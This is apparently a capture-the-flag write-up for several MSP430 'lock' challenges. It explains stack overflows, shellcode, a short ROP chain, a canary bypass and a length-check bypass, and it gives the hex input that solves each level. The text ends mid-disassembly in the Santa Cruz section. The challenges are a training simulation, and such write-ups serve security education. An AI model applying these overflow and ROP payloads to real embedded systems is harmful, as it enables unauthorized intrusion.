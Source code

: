 Therefore, `cmp	#0xca5c, -0x24(r4)` have to be true which mean the first two bytes have to be `0x5c` and `0xca` respectively.

password: `5cca`

# Whitehorse - 50pts

Classic buffer overflow plus shellcode

Because NX and ASLR is no enabled, we can first gain control of the `pc` pointer by overflowing the stack and then return to our input which also contains the shellcode.

password: `3012 7f00 b012 3245 0000 0000 0000 0000 403e`

# Montevideo - 50pts

This challenge is similar to the last one, but there is an additional `strcpy` which no `0x00` in our payloadl; therefore, we have to use a bit of ROP to solve this one:

```
Payload:
  16 bytes padding - '0x65'*16
  the INT function @0x454c - '0x4c45'
  junk return address - '0x6565'
  params - '0x7f'
```

password: `6565 6565 6565 6565 6565 6565 6565 6565 4c45 6565 7f`

# Johannesburg - 20pts

This challenge attempts to control the input size using a hard coded stack canary which could be easily bypassed.

`4578:  f190 3800 1100 cmp.b	#0x38, 0x11(sp)` shows that the 17th byte need to be `0x38` for the input to pass the check.

password: `6565 6565 6565 6565 6565 6565 6565 6565 aa38 4644`

# Santa Cruz - 50pts


There is three parts to this challenge:

```
455c:  c443 faff      mov.b	#0x0, -0x6(r4)
4560:  f442 e7ff      mov.b	#0x8, -0x19(r4)
4564:  f440 1000 e8ff mov.b	#0x10, -0x18(r4)
...
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15
45e8:  8f11           sxt	r15
45ea:  0b9f           cmp	r15, r11
45ec:  0628           jnc	#0x45fa <login+0xaa>      <-- first check
45ee:  1f42 0024      mov	&0x2400, r15
45f2:  b012 2847      call	#0x4728 <puts>
45f6:  3040 4044      br	#0x4440 <__stop_progExec__>
45fa:  5f44 e7ff      mov.b	-0x19(r4), r15
45fe:  8f11           sxt	r15
4600:  0b9f           cmp	r15, r11
4602:  062c           jc	#0x4610 <login+0xc0>      <-- second check
4604:  1f42 0224      mov	&0x2402, r15
4608:  b012 2847      call	#0x4728 <puts>
460c:  3040 4044      br	#0x4440 <__stop_progExec__>
...
464c:  c493 faff      tst.b	-0x6(r4)
```